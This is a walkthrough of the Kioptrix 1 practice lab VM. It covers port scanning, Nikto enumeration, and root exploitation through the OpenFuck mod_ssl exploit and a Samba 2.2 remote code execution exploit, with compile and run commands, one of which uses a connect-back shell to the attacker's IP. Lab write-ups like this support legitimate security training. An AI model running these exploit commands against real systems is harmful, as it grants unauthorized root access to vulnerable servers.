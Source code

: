 # Kioptrix 1

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 b8746cdbfd8be666e92a2bdf5e6f6486 (RSA1)
|   1024 8f8e5b81ed21abc180e157a33c85c471 (DSA)
|_  1024 ed4ea94a0614ff1514ceda3a80dbe281 (RSA)
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: EMYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2023-04-13T19:36:42+00:00; +1m50s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce52934723e7fec28d74ab42d702f1
|_SHA-1: 9c4291c3bed2a95b983d10acf766ecb987661d33
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: 400 Bad Request
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:1F:3C:F0 (VMware)

Host script results:
|_clock-skew: 1m49s
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>

```

Enumerated UDP ports:

```
unknown
```

Notes:

80 is running Apache 1.3.20 // SSL 2.8.4

* <mark style="color:red;">Vulnerable to OpenFuck exploit</mark>

{% embed url="https://github.com/heltonWernik/OpenLuck" %}
Exploit Repository
{% endembed %}

## Enumeration

### Port 80 - HTTP (Apache 1.3.20)

Nikto:

```
nikto -h http://192.168.1.104

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.104
+ Target Hostname:    192.168.1.104
+ Target Port:        80
+ Start Time:         2023-04-13 15:44:58 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
+ /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
+ /shell?cat+/etc/hosts: A backdoor was identified.
+ 8724 requests: 0 error(s) and 30 item(s) reported on remote host
+ End Time:           2023-04-13 15:45:20 (GMT-4) (22 seconds)
```

### Port 445 - Samba (2.2.1a)

smb\_version:

* We can also analyze SMB/SAMBA packets in Wireshark to verify the Samba version inside of the TCP steam

```
msfconsole
search smb_version
set RHOSTS 192.168.1.104
run
```

Samba 2.2 RCE (10.c):

```
searchsploit samba 2.2
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution 10.c
searchsploit -m 10.c
gcc 10.c -o 10
```

## Exploitation

There are multiple ways to exploit and gain access to this machine. <mark style="color:yellow;">This is the first one</mark>.

### OpenFuck SSL RCEL:

This is a C file, you must compile the binary with `gcc` and then use the proper arguments to satisfy the exploit. You will get some warnings, that's okay, just ignore them.

```
git clone https://github.com/heltonWernik/OpenLuck
cd OpenLuck
sudo apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck 0x6b 192.168.1.104 443 -c 40
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* You can see that we land as a root user

### Samba 2.2.x RCE

10.c -- be sure to compile (shown above in enumeration):

```
./10 -b=0 -c <kali_ip> <target_ip>
```

* You can see that we land as root again!

<figure><img src="../../.gitbook/assets/image (12) (4).png" alt=""><figcaption></figcaption></figure>
